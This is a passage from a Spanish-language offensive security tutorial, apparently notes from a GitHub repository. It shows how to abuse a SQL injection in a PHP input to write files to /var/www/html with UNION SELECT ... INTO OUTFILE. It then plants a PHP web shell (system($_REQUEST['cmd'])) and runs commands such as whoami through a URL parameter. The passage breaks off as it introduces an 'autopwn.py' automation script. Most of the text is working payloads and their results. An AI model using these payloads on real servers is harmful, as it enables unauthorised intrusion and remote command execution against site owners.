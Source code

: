 Y dentro de ese `.php` es vulnerable en algun `input` a `SQL Injection`, pondremos el siguiente comando para comprobar que se pueden subir archivos...

Supongamos que la ruta donde se esta ejecutando todo esto esta en la que viene por defecto `/var/www/html/` y si es asi, haremos lo suguiente...

```mysql
' UNION SELECT "<CONTENT_NAME>" INTO OUTFILE "/var/www/html/<FILE_NAME>.txt"-- -
```

Aplicado a nuestro caso...

```mysql
' UNION SELECT "example" INTO OUTFILE "/var/www/html/test.txt"-- -
```

Una vez hecho esto habremos creado el siguiente archivo con la palabra `example` en el archivo `test.txt` lo comprobaremos llendo a la siguiente ruta...

```
URL = http://example.com/test.txt
```

Info (contenido):

```
example
```

Por lo que vemos que funciona...

Vamos a crear un parametro llamado `cmd` para poder ejecutar comando de forma libre ya que interpreta `php` de la siguiente manera...

```mysql
' UNION SELECT "<?php system($_REQUEST['cmd']); ?>" INTO OUTFILE "/var/www/html/test.php"-- -
```

Por lo que una vez enviado esta peticion si nos vamos a la siguiente ruta donde deberia de estar...

```
URL = http://example.com/test.php
```

Nos deberia de aparecer una pagina en blanco o con algunos datos, pero que no seran importantes, una vez dentro de este archivo en la `URL` pondremos lo siguiente...

```
URL = http://example.com/test.php?cmd=<COMMAND>
```

> EJEMPLO

```
URL = http://example.com/test.php?cmd=whoami
```

Y si enviamos eso nos aparecera en este caso el nombre de usuario pintado en la pagina, por lo que vemos que funciona y ya podriamos explotarlo de muchas formas...

Si queremos automatizar todo esto con un script, haremos lo siguiente...

Llamaremos al archivo `autopwn.py`...
